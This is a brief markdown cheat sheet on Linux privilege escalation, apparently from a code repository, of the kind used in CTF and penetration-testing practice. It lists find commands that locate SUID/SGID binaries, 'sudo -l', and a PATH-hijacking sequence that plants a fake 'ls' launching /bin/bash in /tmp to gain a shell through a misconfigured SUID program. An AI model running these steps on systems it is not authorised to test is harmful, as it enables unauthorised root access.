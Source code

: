# Cheatsheet linux privilege escalation

## SUID scan

```
find / -perm -u=s -type f 2>/dev/null
```

## Writables directory scan

```
find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 6 -exec ls -ld {} \; 2>/dev/null
```

## Binary with exec rights 

```
find / -type f -perm /6000 -ls 2>/dev/null 
```

## Found specific file

```
binwalk socute.jpg 
```

## Get sudo permissions (Must have the user password)

```
sudo -l
```

## Escalation with path variable (work with suid misconfiguration)

```
cd /tmp
echo “/bin/bash” > ls
chmod 777 ls
echo $PATH
export PATH=/tmp:$PATH
```